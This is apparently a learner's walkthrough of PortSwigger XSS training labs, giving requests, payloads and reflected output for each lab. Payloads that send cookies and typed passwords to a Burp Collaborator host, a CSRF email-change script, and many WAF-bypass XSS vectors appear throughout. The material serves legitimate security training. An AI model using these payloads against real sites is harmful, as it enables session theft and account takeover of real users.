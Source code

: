 # **xss burp labs**
https://portswigger.net/web-security/cross-site-scripting

# **Reflected XSS**
https://portswigger.net/web-security/cross-site-scripting/reflected

<span style="color:yellow;font-weight:700;font-size:30px">
Exploiting cross-site scripting vulnerabilities - 3 labs
</span>
https://portswigger.net/web-security/cross-site-scripting/exploiting

# ***1. Lab: Exploiting cross-site scripting to steal cookies***
https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies

This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim. 

1. find stored XSS:
    POST /post/comment HTTP/1.1
    Cookie: session=VaFtkIpmQsVgJNSJXR6SzOWjyJjPcOqH

    csrf=tNfZzLkcKOAkjY2i4hkV3JajKwRfmVo8&postId=2&comment=<script>alert(1)</script>&name=<script>alert(2)</script>&email=1@drive.com&website=

**response:** 
> POP alert 1
comment is vulnerable

**burp colaborator**
> hqb7iapxk2hjk1bcmv371ssm7dd81x.oastify.com

craft XSS:
<!-- >POST /post/comment HTTP/1.1
>Cookie: session=VaFtkIpmQsVgJNSJXR6SzOWjyJjPcOqH
>
>csrf=tNfZzLkcKOAkjY2i4hkV3JajKwRfmVo8&postId=3&comment=<script>fetch('http://c2f2u51swxtewwn7yqf2dn4hj8p5du.oastify.com/'+document.cookie)</script>&name=attacker&email=1@drive.com&website=

works on me but i dont get a anything from vic. lets try different mehtod to initiate the callback: -->

>POST /post/comment HTTP/1.1
>Cookie: session=VaFtkIpmQsVgJNSJXR6SzOWjyJjPcOqH
>
>csrf=tNfZzLkcKOAkjY2i4hkV3JajKwRfmVo8&postId=4&comment=<script>document.location='http://c2f2u51swxtewwn7yqf2dn4hj8p5du.oastify.com/'+document.cookie;</script>&name=attacker&email=1@drive.com&website=

**resonse in burp colaborator:**
> GET /secret=vDuHiLHzGprgjsyF4NcJGT6adF2zrqfX;%20session=E2kwm5V1vFUkQq2vW89G2WimZ6N4UiGa HTTP/1.1

send a **GET / HTTP/1.1** to repeater and change the cookie value (session) with the extracted values (secret. session):

> GET / HTTP/1.1
> Cookie: secret=vDuHiLHzGprgjsyF4NcJGT6adF2zrqfX; session=E2kwm5V1vFUkQq2vW89G2WimZ6N4UiGa

# Lab solved


# ***2. Lab: Exploiting cross-site scripting to capture passwords***
https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords
 
 This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account. 

check where for XSS:
>POST /post/comment HTTP/1.1

>csrf=2hUq6dqUHYhlhDjySjZDKNgC7pxsM6bL&postId=6&comment=<script>alert('comment')</script>&name=<name>&email=clean@token.com&website=

craft a payload:
1. use website form to post a comment:
'''htm
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://2wzsovviqnn4qmhxsg9s7dy7dyj17q.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
'''

response:
> POST / HTTP/1.1
>
> administrator:oa183my69g2j1n51m7xs

# Lab Solved


# ***3. Lab: Exploiting XSS to perform CSRF***
https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf

 This lab contains a stored XSS vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to perform a CSRF attack and change the email address of someone who views the blog post comments.

You can log in to your own account using the following credentials: wiener:peter 

1. login to wiener account and do a email change process:
> POST /my-account/change-email HTTP/1.1
>
> email=wiener@normal-user.net&csrf=NuLVz3gIonlrTUSodUwybd6nDdponj5a


2. use website form to post a comment:
'''htm
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=attacker@gnail.com')
};
</script>

# Lab solved


<span style="color:yellow;font-weight:700;font-size:30px">
Cross-site scripting contexts - 15 labs
</span>
https://portswigger.net/web-security/cross-site-scripting/contexts


# ***1. Lab: Reflected XSS into HTML context with nothing encoded***
https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded

search field:
<script>alert(1)</script>

# ***2. Lab: Stored XSS into HTML context with nothing encoded***
https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded

test 1 - <script>alert(document.cookie)</script>


# ***3. Lab: Reflected XSS into HTML context with most tags and attributes blocked***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked
1. try baseline xss:
    GET /?search=<script>alert(1)</script> HTTP/1.1
    response:
    "Tag is not allowed"

2. check if tag not blocked using portswigger cheatsheet tag list via intruder:
    GET /?search=§§ HTTP/1.1

    200 responses:
    GET /?search=<body> HTTP/1.1          //not blocked!


3. check event for blockage (using portswigger cheatsheet event list via intruder:):
    GET /?search=§§ HTTP/1.1

    200 responses:
        GET /?search=<body%20onresize=1> HTTP/1.1          //not blocked!


4. lets craft an html page with an iframe containig the search payload. the iframe also contains a command (executed on load) to resize its width - causing the payload to be fired:
    <iframe src="https://0ac8001d04a89eb9c0751d16007f0036.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>

# POP!


# ***4. Lab: Reflected XSS into HTML context with all tags blocked except custom ones***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked
1. try baseline xss:
<script>alert(1)</script>
tags blocked!

2. check if tag not blocked using portswigger cheatsheet tag list via intruder:
all known tags are bloced

3. check custom tags sing portswigger cheatsheet tag list via intruder:
all custom tags are not blocked

lets look for a payload from custom tags:
<xss id=x tabindex=1 onfocus=alert(1)></xss>

we will put it in a link to the search term and add hash call ("#") for the tag "x":

<script>
location = 'https://0a310080041f2ce7c0c165c1004c0044.web-security-academy.net/?search=<xss id=x tabindex=1 onfocus=alert(1)></xss>#x';
</script>

explanation:
location =                                                                      // JS command elling browser to go to a 
'https://0a310080041f2ce7c0c165c1004c0044.web-security-academy.net/?search=     // exploitable URL and inject
<xss id=x tabindex=1 onfocus=alert(1)></xss>                                    // payload utilizing custom tag (to bypass waf)
#x                                                                              // and fire it up with hash (correspondes with id=x and uses tabindex to autofocus the element)

see: 
https://portswigger.net/research/one-xss-cheatsheet-to-rule-them-all



# ***5. Lab: Reflected XSS with event handlers and href attributes blocked***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked

label your vector with the word "Click":
<a href="">Click me</a>

1. try baseline xss:
<script>alert(1)</script>
"Tag is not allowed" 400

2. check if tag not blocked using portswigger cheatsheet tag list via intruder:
GET /?search=§§ HTTP/1.1

200 responses:
GET /?search=<a> HTTP/1.1
GET /?search=<animate> HTTP/1.1
GET /?search=<image> HTTP/1.1
GET /?search=<svg> HTTP/1.1
GET /?search=<title> HTTP/1.1

3. try adoptaion of last payload with <a> tag
<a id=x tabindex=1\000onfocus=alert(1)>Click me</a>
"Event is not allowed" 400

4. check event types for blockage (using portswigger cheatsheet event list via intruder:):
all event in the cheetlist are blocked by waf

5. look for eventless payload - using find on the cheetsheet for animate we get:
<svg x=">" onload=alert(1)> 

breakdown:
//    1. the ">" makes WAF thinks its the end of the tag so he doesnt block the onload event handler. 
//    2. why it works also without the "click" string - IDK

POP!

original Polyglot XSS payload:
-->'"/></sCript><svG x=">" onload=(co\u006efirm)``>
by @s0md3v from:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#polyglot-xss


portswiggers payload (requiers user interaction):
```
<svg><a><animate attributeName=href values=javascript:alert(2) /><text x=20 y=20>Click me</text></a>
```

**1. breakdown:**
```
    <svg>   // whitelisted tag 
        <a>     // whitelisted tag (?why need 2 tags?)
            <animate attributeName=href values=javascript:alert(1) />
            <text x=20 y=20>Click me</text>
    </a> -->
```

# ***6. Lab: Reflected XSS with some SVG markup allowed***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed

<svg x=">" onload=alert(1)> 

# ***7. Lab: Reflected XSS into attribute with angle brackets HTML-encoded***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded
<script>alert(1)</script>
reflects twice on page:
1. inside a header:
    <h1>0 search results for ''&gt;&lt;script&gt;alert(1)&lt;/script&gt;'o'</h1>
2. in the search bar:
    <input type="text" placeholder="Search the blog..." name="search" value="<script>alert(1)</script>">

the <h1> tag escape tries fails so going to <input> tag and changing to event handler payload:
    " autofocus onfocus=alert(document.domain) x="
reflected as:
    <input type="text" placeholder="Search the blog..." name="search" value="" autofocus="" onfocus="alert(document.domain)" x="">
POP!



# ***8. Lab: Stored XSS into anchor href attribute with double quotes HTML-encoded***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded


To solve this lab, submit a comment that calls the alert function when the comment author name is clicked. 

1 try:
POST /post/comment HTTP/1.1

csrf=zldcOMiQQXjD7RtgPjTfwZEypoHRh2KP&postId=4&comment=walla%3F&name=hacker&email=clean%40token.com&website=test.com

response:
<p><img src="/resources/images/avatarDefault.svg" class="avatar"><a id="author" href="website=test.com">hacker</a> | 03 July 2022</p>

change href attribute value from "website=test.com" to "javascript:alert()" and resend via repeater

now we get clickble link that preform XSS POC

POP!

# ***9. Lab: Reflected XSS in canonical link tag***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag

for canonical manipultion lets try adding arbitary paramaeter to the URL:
    ?test
full path: 
    https://0a4100be0430aa3bc0926f20007d0094.web-security-academy.net/?test

reflect:
    <head>
    ..
        <link rel="canonical" href='https://0a4100be0430aa3bc0926f20007d0094.web-security-academy.net/?test'/>
    ..
    </head>

lets change "?test" with payload:
    ?'accesskey='x'onclick='alert(1)


payload breakdown:
    ?                   // param
    '                   //breaks out of href field - wired since in js it uses ". maybe php back server uses ' ?
    accesskey='x'       // define shortcut key "x"  
    onclick='alert(1)   // when accessed via "x" key preform this action 

    // **access key to be accessed by ALT+SHIF+"x" in firefox.(in chrome/IE/safari/Opera15+ its just ALT+"X")


full path:
    https://0acb007104d7d0f9c07124ee00810023.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)


reflection:
    <head>
    ..
        <link rel="canonical" href="https://0acb007104d7d0f9c07124ee00810023.web-security-academy.net/?" accesskey="x" onclick="alert(1)">
    
    <!-- no need for user interaction if we just use autofocus onfocus?
    ?'autofocus+onfocus%3dalert()
    full path
    https://0a4100be0430aa3bc0926f20007d0094.web-security-academy.net/?'autofocus+onfocus%3dalert()

    ?tabindex=1+id=x+onfocus%3dalert(3) -->


# ***10. Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped

hint:
</script><img src=1 onerror=alert(document.domain)>

test - search for test and look for reflections:
GET /?search=test HTTP/1.1

reflection:
    <script>
        var searchTerms = 'test';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>

payload to escape the code:
</script><img src=1 onerror=alert(document.domain)>

reflection:
    <script>
        var searchTerms = '\'</script><img src=1 onerror=alert(document.domain)>';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>



POP!

# ***11. Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded

hints:
    '-alert(document.domain)-'
    ';alert(document.domain)//


test - search for test and look for reflections:
GET /?search=test HTTP/1.1

reflection:
    <script>
        var searchTerms = 'test';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>

trying prevoius payload:
'</script><img src=1 onerror=alert(document.domain)>

reflection:
                   <script>
                        var searchTerms = ''&lt;/script&gt;&lt;img src=1 onerror=alert(document.domain)&gt;';
                        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
                    </script>

payloads (since we already inside script) - both works:
';alert(document.domain)//
'-alert(document.domain)-'

reflections:
    <script>
        var searchTerms = '';alert(document.domain)//';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>
    <script>
        var searchTerms = ''-alert(document.domain)-'';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>

POP!

# ***12. Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped

test last payload:
    GET /?search=';alert(document.domain)//  HTTP/1.1

reflection
    <script>
        var searchTerms = '\';alert(document.domain)//';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>

' is escaped

use double escape ' to breakout:
    GET /?search=\';alert(document.domain)// HTTP/1.1

reflection:
    <script>
        var searchTerms = '\\';alert(document.domain)//';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>

payload:
    \';alert(document.domain)//


# ***13. Lab: Reflected XSS in a JavaScript URL with some characters blocked***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked

hint:
    onerror=alert;throw 1

test:
POST /post/comment HTTP/1.1

csrf=L51ljiFGeK4JW8fE59ZWWdebbnezsNCc&postId=3&comment=test&name=test&email=clean%40token.com&website=https:test.

reflection
    <p>
    <img src="/resources/images/avatarDefault.svg" class="avatar"><a id="author" href="http://test.">test</a> | 03 July 2022
    </p>

check1:
    https://'<script>alert()</script>

reflection:
    <a id="author" href="https://&apos;&lt;script&gt;alert()&lt;/script&gt;">test</a>

check2:
https://"+onerror=alert;throw+1337

<a id="author" href="https://&quot; onerror=alert;throw 1337">test</a>

https://0a1800cb03087020c0b574f400240037.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27


port solution:
'},x=x=>{throw/**/onerror=alert,1337},toString=x,window%2b'',{x:'

???


# ***14. Lab: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-onclick-event-angle-brackets-double-quotes-html-encoded-single-quotes-backslash-escaped

try:
    http://alert')
reflection:
    <a id="author" href="http://alert\')" onclick="var tracker={track(){}};tracker.track('http://alert\')');">

try:
    http://alert\')
reflection:
    <a id="author" href="http://alert\')" onclick="var tracker={track(){}};tracker.track('http://alert\\\');">
learned: \ and ' are escaped

try (aubstitues to '):
    '%27\x27&#39;&apos;
reflect:
    <a id="author" href="http://\'\'\\x27&#39;&apos;" onclick="var tracker={track(){}};tracker.track('http://\'\'\\x27&#39;&apos;');">
learned: hex escape (\x00) and octa escape(\00)) are useless here


try (HtmlEnc --> UrlEnc):
    http://&apos;&#37;&#50;&#55;&#92;&#120;&#50;&#55;&amp;&#35;&#51;&#57;&#59;&amp;&#97;&#112;&#111;&#115;&#59;alert")
        http://%26apos%3b%26%2337%3b%26%2350%3b%26%2355%3b%26%2392%3b%26%23120%3b%26%2350%3b%26%2355%3b%26amp%3b%26%2335%3b%26%2351%3b%26%2357%3b%26%2359%3b%26amp%3b%26%2397%3b%26%23112%3b%26%23111%3b%26%23115%3b%26%2359;alert")
reflect:
 <a id="author" href="http://&apos;&#37;&#50;&#55;&#92;&#120;&#50;&#55;&amp;&#35;&#51;&#57;&#59;&amp;&#97;&#112;&#111;&#115;&#59;alert&quot;)" onclick="var tracker={track(){}};tracker.track('http://&apos;&#37;&#50;&#55;&#92;&#120;&#50;&#55;&amp;&#35;&#51;&#57;&#59;&amp;&#97;&#112;&#111;&#115;&#59;alert&quot;)');">

browser do URL decode but not HTML decode


" http://alert "
' http://alert '
are they different? '/" ?

try:
    http://alert")
reflect:
<a id="author" href="http://alert&quot;)" onclick="var tracker={track(){}};tracker.track('http://alert&quot;)');">

try:
    "%22\x22&#34;&quot;
reflect:
    <a id="author" href="http://&quot;&quot;\\x22&#34;&quot;tpalert&quot;)" onclick="var tracker={track(){}};tracker.track('http://&quot;&quot;\\x22&#34;&quot;tpalert&quot;)');">


try (aubstitues to '):
    http://'%27%26#39;%26apos;alert()
try (urlencoded X1)
'%2527%26%2339%3b%26apos%3balert

reflect:
    <a id="author" href="http://\'%27%26#39;%26apos;alert()" onclick="var tracker={track(){}};tracker.track('http://\'%27%26#39;%26apos;alert()');">

try (urlencode X2):
http%3a//'%2527%2526%2339%3b%2526apos%3balert()
    <a id="author" href="http://\'%27%26#39;%26apos;alert()" onclick="var tracker={track(){}};tracker.track('http://\'%27%26#39;%26apos;alert()');">


try:
https://0a1c00a404fd51e9c1e76ff900ec007f.web-security-academy.net/%26#39;'--%0d%0a;alert(document.domain)//
ref:
https://0a1c00a404fd51e9c1e76ff900ec007f.web-security-academy.net/'/'--!%3E;alert(document.domain)//


post solutions:
http://foo?&apos;-alert(1)-&apos;

<!-- ?? do you send it as is or do you url encode the & ? -->

# ***15. Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-template-literal-angle-brackets-single-double-quotes-backslash-backticks-escaped

hint: ${alert(document.domain)}

try:
```
test`\
```
reflection in response:
    <script>
        var message = `0 search results for 'test\u0060\u005c'`;
        document.getElementById('searchMessage').innerText = message;
    </script>

payload:
> ${alert(document.domain)} 












<!-- 
# **AngularJS sandbox**
https://portswigger.net/web-security/cross-site-scripting/contexts/angularjs-sandbox


# ***1. Lab: Reflected XSS with AngularJS sandbox escape without strings***

<script>angular.module('labApp', []).controller('vulnCtrl',function($scope, $parse) {
    $scope.query = {};
    var key = 'search';
    $scope.query[key] = 'test';
    $scope.value = $parse(key)($scope.query);
});</script>

# TBC -->


